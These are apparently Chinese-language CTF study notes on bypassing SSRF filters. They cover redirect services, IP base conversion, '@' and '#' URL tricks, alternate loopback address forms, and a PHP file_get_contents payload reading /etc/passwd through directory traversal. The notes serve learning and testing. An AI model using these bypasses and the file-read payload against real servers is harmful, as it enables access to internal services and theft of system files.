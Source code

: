 # 文章
[浅谈ssrf与ctf那些事](https://zhuanlan.zhihu.com/p/302861528)<br />[us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1691055945549-2207a2e4-9601-4f30-ba89-aaef4e24269d.pdf)
### 302跳转
有一个网站地址是：[http://xip.io](https://link.zhihu.com/?target=http%3A//xip.io)，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，举个例子：<br />当我们访问：[http://127.0.0.1.xip.io/1.php](https://link.zhihu.com/?target=http%3A//127.0.0.1.xip.io/1.php)，实际上访问的是http://127.0.0.1/1.php。<br />像这种网址还有[http://nip.io](https://link.zhihu.com/?target=http%3A//nip.io)，[http://sslip.io](https://link.zhihu.com/?target=http%3A//sslip.io)。
### 进制转换
```php
<?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
if($r < 0) {
  $r += 4294967296;
}
echo "十进制:";
echo $r;
echo "八进制:";
echo decoct($r);
echo "十六进制:";
echo dechex($r);
?>
```
注意八进制ip前要加上一个0，其中八进制前面的0可以为多个，十六进制前要加上一个0x。<br />![image.png](./images/20231017_2354572182.png)
### DNS解析
如果你自己有域名的话，可以在域名上设置A记录，指向127.0.0.1。
### 利用@和#
[http://www.baidu.com@127.0.0.1](http://www.baidu.com@127.0.0.1)与[http://127.0.0.1](http://127.0.0.1)请求是相同的。<br />[https://evil-host#expected-host](https://evil-host#expected-host)与[https://evil-host](https://evil-host#expected-host)请求是相同的
### 其他各种指向127.0.0.1的地址
```php
1. http://localhost/
2. http://0/
3. http://[0:0:0:0:0:ffff:127.0.0.1]/
4. http://[::]:80/
5. http://127。0。0。1/
6. http://①②⑦.⓪.⓪.①
7. http://127.1/
8. http://127.00000.00000.001/
```
第1行localhost就是代指127.0.0.1<br />第2行中0在window下代表0.0.0.0，而在liunx下代表127.0.0.1<br />第3行指向127.0.0.1，在liunx下可用，window测试了下不行<br />第4行指向127.0.0.1，在liunx下可用，window测试了下不行<br />第5行用中文句号绕过<br />第6行用的是Enclosed alphanumerics方法绕过，英文字母以及其他一些可以网上找找<br />第7.8行中0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
### **不存在协议头绕过**
有关file_get_contents()函数的一个trick，可以看作是SSRF的一个黑魔法，当PHP的 file_get_contents() 函数在遇到不认识的伪协议头时候会将伪协议头当做文件夹，造成目录穿越漏洞，这时候只需不断往上跳转目录即可读到根目录的文件
```php
<?php
  highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['a'])){
  die("no hack");
}
echo file_get_contents($_GET['a']);
?>
```
此处限制我们只能读https开头的路径，但利用这个特性我们可以构造如下Payload
```php
httpsssss://../../../../../../etc/passwd
```
### URL的解析问题
#### Python URL解析器的差异
![](./images/20231017_2354585265.png)
#### 其他URL解析器的差异
![image.png](./images/20231017_2354596071.png)<br />![image.png](./images/20231017_2354591422.png)
#### cURL的解析问题
![image.png](./images/20231017_2355017214.png)<br />![image.png](./images/20231017_2355022833.png)
